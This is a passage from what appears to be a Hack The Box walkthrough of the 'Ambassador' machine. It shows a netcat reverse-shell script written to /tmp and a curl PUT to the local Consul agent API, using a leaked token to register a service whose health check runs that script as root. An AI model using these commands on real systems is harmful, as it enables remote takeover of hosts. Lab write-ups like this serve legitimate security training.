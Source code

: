 ```bash
echo "mkfifo /tmp/f; nc 10.10.14.2 5456 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f" > /tmp/test.sh

curl -H "X-Consul-Token: bb03b43b-1d81-d62b-24b5-39540ee469b5" -X PUT -d '{"ID": "kash","Name": "kash","Address": "127.0.0.1","Port": 80,"check": {"Args": ["/bin/bash", "/tmp/test.sh"],"interval": "10s","Timeout": "100s"}}' http://127.0.0.1:8500/v1/agent/service/register
```

Once we send the PUT request to register the service, we get the reverse root shell and the flag:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/ambassador/8_0_root.png" width="95%"/>
</p>


